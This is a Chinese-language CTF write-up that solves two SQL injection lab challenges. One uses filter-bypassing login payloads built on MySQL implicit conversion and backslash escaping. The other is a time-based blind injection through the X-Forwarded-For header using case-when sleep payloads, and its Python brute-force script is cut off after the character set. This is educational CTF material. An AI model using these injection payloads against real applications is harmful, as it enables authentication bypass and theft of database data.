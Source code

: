**自己的解法**

进入页面尝试登录一下，发送请求之后出现给出提示的界面。

这边使用常规方式判断注入点好像不行。所以开始我只是先猜测他语句是
`SELECT * FROM users WHERE username = '' AND password = ''`
提示也说了，过滤了很多东西，所以拿or随便尝试一下。`username=1or&password=1`
发现or被过滤，大小写或者重写都无法绕过。所以利用BP进行Fuzz测试还过滤了那些内容。
发现username和password字段都被过滤内容`or || # -- select union *`
select和union被过滤，所以可以把思路调整一下,构建万能密码先登录进入。
而因为MYSQL的隐式转换可以利用=号和单引号来构建密码。原理如下
```sql
username = '' = ''
(username = '') = ''
false = ''
false = false
true
```
所以构建payload为`username='='&password='='`
页面显示所有的用户名，并且得到了flag。

**第二种解法**
很不错的思路，原本的SQL语句是`SELECT * FROM users WHERE username = '' AND password = ''`
由于过滤中没有过滤转义符，所以我们可以把`username=''`中最后的单引号转义，那么就会变成`username = '\' AND password = ''`
那么后面的password条件就被变为字符串。只是最后有一个单引号，可以通过password字段传入来闭合。
最后构建payload `username=\&password=='`，凭借后变为`username = '\' AND password = '=''`
可以直接看作为`username = ''=''`，永真所以返回所有用户信息。
原来的大佬是使用^来异或运算`username = '\' AND password = '^'0'`
在SQL运算顺序中先进行异或运算，所以`'\' AND password = '^'0'` 结果为0
那么条件就变为`username = 0`，因为username不是整数类型，而它和数字比较，会被转换为数字，如果不是数字开头的话就会被当为0
既就是所有纯字符和0开头的数据都会被匹配成功。
数据库里面的3条积累都满足，所以都显示出来，得到flag



<br>

### who are you?
提示说会把IP进入到数据库，所以很明显的insert into注入。可以根据盲注或者报错注入或者插入的数据能回显
构建请求包
```http
GET /web/wonderkun/index.php HTTP/1.1
Host: ctf5.shiyanbar.com
X-Forwarded-For: 123
Connection: close
Upgrade-Insecure-Requests: 1
```
页面中显示123,开始注入,判断注入点

```
'   # 页面没有报错信息，不能进行报错注入  页面也无法回显数据库的信息，所以猜测时间盲注
'+sleep(5) or '    # 页面执行了超过5s，确定注入点
```
利用bp fuzz测试下是否有过滤字符
发现只有逗号被过滤了。
然后在尝试使用if的过程中，发现，之后的内容被截断，包括逗号。
`'+if(1,sleep(5),1) or '`  页面回显`your ip is :'+if(1`
那么就不能使用逗号，所以利用case when来完成，继续构建payload
```
'+(select case when 1 then sleep(2) else 1 end) or '
'+(select case when (mid(database() from 1 for 1)='s') then sleep(2) else 1 end) or '
```
写出python脚本,10s是因为发现5s 8s得到的数据不太正常
```python
import requests

ALL = ' flagqwertyuiopsdhjkzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890`~!@#$%^&*()_+=[]{};\':\"<>?,./\\'
```